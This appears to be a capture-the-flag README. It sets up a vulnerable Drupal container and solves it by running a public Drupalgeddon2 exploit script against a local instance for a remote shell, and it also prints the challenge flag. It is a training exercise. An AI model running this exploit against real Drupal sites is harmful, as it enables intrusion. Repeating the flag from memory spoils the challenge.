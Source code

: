# Challenge 4: Armageddon

## How to Run
```bash
docker compose pull
docker compose up -d
```

---

## Description
This challenge demonstrates a **Drupalgeddon** attack, which gives the attacker **system-level access** via a remote shell.

---

## Solution
There are multiple ways to exploit this vulnerability, but the recommended approach is to use an **automated exploit script**.

### Steps:
1. Install Ruby.
2. Clone the Drupalgeddon2 exploit repository:
   ```bash
   git clone https://github.com/dreadlocked/Drupalgeddon2.git
   ```
3. Run the exploit against the vulnerable Drupal instance:
   ```bash
   ruby drupalgeddon2.rb http://localhost:8123
   ```
4. Successful exploitation will provide remote shell access.

**Flag:**
```
FLAG{drupal-rce-works}
```

---

## How to Recreate
1. Clone the Vulhub repository:
   ```bash
   git clone https://github.com/vulhub/vulhub
   ```
2. Navigate to the **Drupalgeddon** folder inside the repository.
3. Build and start the vulnerable container:
   ```bash
   docker compose up -d --build
   ```
4. Once the container is running, hide your flag in any directory of your choice within the system.

---

## Final Notes
This challenge highlights the critical security risk of unpatched CMS installations and demonstrates how **Remote Code Execution (RCE)** vulnerabilities can lead to full system compromise.
